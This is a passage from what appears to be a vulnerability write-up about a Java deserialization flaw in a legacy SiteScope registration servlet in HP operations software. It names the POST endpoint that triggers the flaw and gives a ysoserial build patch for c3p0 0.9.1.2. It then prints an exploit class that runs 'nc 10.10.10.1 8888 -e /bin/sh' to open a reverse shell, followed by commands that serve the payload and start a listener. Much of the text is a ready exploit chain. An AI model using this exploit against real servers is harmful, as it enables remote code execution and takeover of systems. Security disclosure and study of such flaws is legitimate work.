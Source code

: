 ```java
```
> Snippet D: *com.hp.opr.legacy.sitescope.servlet.RegistrationServlet.doPost()*

As it can be seen in the first few lines, this servlet contains a classic, run of the mill Java Deserialization vulnerability. The request body of the HTTP POST request is turned into a *ObjectInputStream* and then *readObject()* is called on it.

This is trivial to trigger; all that is needed is to send a POST request to  */legacy/topaz/sitescope/conf/registration* with a body with the exploit.

In order to exploit it, it is necessary to compile *ysoserial* with *c3p0 0.9.1.2*. The patch in **Snippet E** should be applied to *ysoserial* before compiling:

```diff
diff --git a/pom.xml b/pom.xml
index 73d39c4..9d27473 100644
--- a/pom.xml
+++ b/pom.xml
@@ -239,7 +239,7 @@
                <dependency>
                        <groupId>com.mchange</groupId>
                        <artifactId>c3p0</artifactId>
-                       <version>0.9.5.2</version>
+                       <version>0.9.1.2</version>
                </dependency>
                <dependency>
                        <groupId>javax.servlet</groupId>
```
> Snippet E: patch to *ysoserial* for *c3p0 0.9.1.2* compilation


In order to exploit this in Windows using the *c3p0 ysoserial* payload, we need to generate an "exploit class":

```sh
cat  << EOF > ExploitClass.java
public class ExploitClass {
	public ExploitClass() throws Exception {
		Runtime rt = Runtime.getRuntime();
		// for Linux
		String[] commands = {"/bin/sh", "-c", "nc 10.10.10.1 8888 -e /bin/sh"};
		// for Windows
		//String[] commands = {"cmd", "/c", "mspaint.exe"};
		Process pc = rt.exec(commands);
		pc.waitFor();
	}
}
EOF
```
> Snippet F: *ExploitClass* code

The *ExploitClass* code needs to be compiled with Java 8:

```/usr/lib/jvm/java-8-openjdk-amd64/bin/javac ExploitClass.java```

We then start a Python server serving the object, as well as a listener to receive the reverse shell (assuming we're attacking a Linux server):

```sh
python -m SimpleHTTPServer 4444 &
nc -lvknp 8888
```
